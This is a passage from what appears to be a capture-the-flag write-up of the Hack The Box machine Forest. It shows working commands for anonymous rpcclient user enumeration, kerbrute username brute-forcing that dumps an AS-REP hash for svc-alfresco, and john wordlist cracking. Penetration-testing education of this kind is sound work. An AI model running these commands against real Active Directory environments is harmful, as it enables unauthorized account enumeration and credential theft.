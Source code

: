 <br /><br />

I'm running out of protocols to attack, but I have **[Kerberos](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-kerberos-88/index.html?highlight=port%2088#hacktricks-automatic-commands){:target="_blank"}** available, and what I can do is get a list of user accounts with `rpcclient` (being careful that there are no repeats) or even with the **[`rpcenum` tool of S4vitar](https://github.com/s4vitar/rpcenum){:target="_blank"}** and then perform a brute force attack with **[`kerbrute`](https://github.com/ropnop/kerbrute){:target="_blank"}** to validate which ones are valid and even this tool succeeds in dumping a hash to try to crack on my machine or with online tools. Unfortunately neither with `john` or other tools can I get the password in clear text.

> **[Kerberos](https://www.techtarget.com/searchsecurity/definition/Kerberos){:target="_blank"}** is a protocol for authenticating service requests between trusted hosts across an untrusted network, such as the internet. By providing a gateway between users and a network, **Kerberos** helps verify the identities of users and hosts, and it keeps unauthorized or malicious users out of a private network. **Kerberos** support is built into all major computer operating systems (**OSes**), including **Microsoft Windows**, **Apple macOS**, **FreeBSD**, **Unix** and **Linux**.

> **[kerbrute](https://github.com/ropnop/kerbrute){:target="_blank"}**: A tool to quickly bruteforce and enumerate **valid Active Directory accounts** through **Kerberos Pre-Authentication**.

> **Kerberos**, in its standard implementation like **Kerberos 5**, does require pre-authentication. **Pre-authentication** is a process where the client proves it knows the user's password hash before the **Kerberos Key Distribution Center** (**KDC**) issues a **Ticket Granting Ticket** (**TGT**). This helps prevent certain attacks. While older Kerberos versions didn't always require it, Kerberos 5 made pre-authentication a standard part of the authentication process.

```bash
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | tail -n 5
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | awk '{print $1}' | grep -oP '\[.*?\]' | tr -d '[]' | wc -l
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | awk '{print $1}' | grep -oP '\[.*?\]' | tr -d '[]' | sort -u | wc -l
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | awk '{print $1}' | grep -oP '\[.*?\]' | tr -d '[]' > users.txt

./rpcenum --help
./rpcenum -i 10.10.10.161 -e All

kerbrute userenum --dc 10.10.10.161 -d htb.local ./users.txt
# 2025/06/25 19:36:09 >  [+] svc-alfresco has no pre auth required. Dumping hash to crack offline:      :)
# 2025/06/25 19:36:14 >  Done! Tested 31 usernames (18 valid) in 5.398 seconds

nvim hash
cat !$
john -w=$(locate rockyou.txt)                       # [Tab]
john -w=/usr/share/wordlists/rockyou.txt hash
```

<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />